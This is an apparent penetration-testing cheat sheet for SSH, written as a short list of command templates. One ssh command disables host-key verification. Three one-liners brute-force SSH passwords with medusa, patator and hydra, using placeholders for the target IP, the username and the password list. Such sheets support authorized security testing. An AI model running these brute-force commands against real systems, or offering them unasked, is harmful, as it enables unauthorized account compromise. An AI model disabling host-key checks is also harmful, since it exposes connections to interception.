 # SSH

% remote shell (secure)

#plateform/linux #target/local #cat/MISC/RECON #protocol/ssh #port/22

## Remote SSH access

ssh with out adding the remote host to KnownHosts file also, ignore if host key and host name don't match

```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" <remote-username>@<ip>
```

## SSH Password Brute Force (Medusa)

uses medusa to brute force passwords for a specified user

```
medusa -h <ip> -M ssh -u <user-name> -P <passwords-file>
```

## SSH Password Brute Force (Patator)

uses patator to brute force passwords for a specified user

```
patator ssh_login host=<ip> user=<User-name> password=FILE0 0=<password file> -x ignore:mesg='Authentication failed.'
```

## SSH Password Brute Force (Hydra)

uses hydra to brute force ssh passwords for a specified user

```
hydra -l <user-name> -P <password-list> -t <n-threads> ssh://<ip> -o ./ssh-creds.hydra
```
